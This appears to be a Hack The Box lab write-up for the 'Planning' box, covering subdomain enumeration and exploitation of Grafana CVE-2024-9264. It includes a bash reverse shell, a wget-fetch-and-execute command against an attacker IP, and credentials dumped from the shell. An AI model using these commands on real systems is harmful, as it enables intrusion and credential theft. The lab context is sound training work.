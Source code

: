 # NMAP Scan
- Port 22 and 80 --> planning.htb added to `etc/hosts`

# Gobuster 
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# gobuster dir -u planning.htb -w common.txt                                                                                                                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4744 / 4745 (99.98%)
```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# gobuster dns -d planning.htb -w bitquark-subdomains-top100000.txt -t 100
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     planning.htb
[+] Threads:    100
[+] Timeout:    1s
[+] Wordlist:   bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 100000 / 100001 (100.00%)
===============================================================
Finished
===============================================================

```
# Ffuf
## File scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ffuf -u http://planning.htb/FUZZ -w common.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 204ms]
index.php               [Status: 200, Size: 23914, Words: 8236, Lines: 421, Duration: 204ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 181ms]
lib                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 205ms]
:: Progress: [4744/4744] :: Job [1/1] :: 195 req/sec :: Duration: [0:00:25] :: Errors: 0 ::

```
## DNS Scan
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/DNS]
└─# ffuf -w bitquark-subdomains-top100000.txt -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -t 150 -mc all -fs 178                                              

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 150
 :: Matcher          : Response status: all
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 179ms]
:: Progress: [100000/100000] :: Job [1/1] :: 626 req/sec :: Duration: [0:02:17] :: Errors: 0 ::

```
# SSH
```
┌──(root㉿kali)-[/usr/share/wordlists/seclists/Discovery/Web-Content]
└─# ssh admin@10.10.11.68
The authenticity of host '10.10.11.68 (10.10.11.68)' can't be established.
ED25519 key fingerprint is SHA256:iDzE/TIlpufckTmVF0INRVDXUEu/k2y3KbqA/NDvRXw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.68' (ED25519) to the list of known hosts.
admin@10.10.11.68's password: 
Permission denied, please try again.
```
Provided creds don't seem to work against SSH

# Working Steps
- Added grafana to etc/hosts
- Provided creds work in Grafana portal
- Page source is saying Grafana v11.0.0
- CVE: `https://github.com/nollium/CVE-2024-9264`
- Made virtual environment:
```
# Create a virtual environment
python3 -m venv venv

# Activate the virtual environment
source venv/bin/activate
```
- Installed `requirements.txt` with `pip install -r requirements.txt` in venv
-  Made a basic reverse shell file:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
```
- Started serving file on port 8000 with: `python3 -m http.server 8000`
- Started listening for reverse shell with: `nc -lvnp 4444`
- Used exploit with `python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.14.5:8000/basic_bash_reverse_shell_p4444.sh -O /tmp/basic_bash_reverse_shell_p4444.sh && chmod +x /tmp/basic_bash_reverse_shell_p4444.sh && /tmp/basic_bash_reverse_shell_p4444.sh" http://grafana.planning.htb`
- Reverse shell allowed me to find creds in /var/lib/grafana/ by running `env` in that path:
```
root@7ce659d667d7:/var/lib/grafana# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/var/lib/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
OLDPWD=/var/lib
_=/usr/bin/env
root@7ce659d667d7:/var/lib/grafana# 
```

# Lessons
- Assume the worst - double check results with different tools and different wordlists. And use the biggest one available to you but also a different one altogether. This box required the bitquark txt one to find the `grafana` subdomain when none other had that keyword needed for this challenge
- Ffuf found the subdomain with the wordlist but gobuster didnt even when i experimented with different threads (`-t`):(
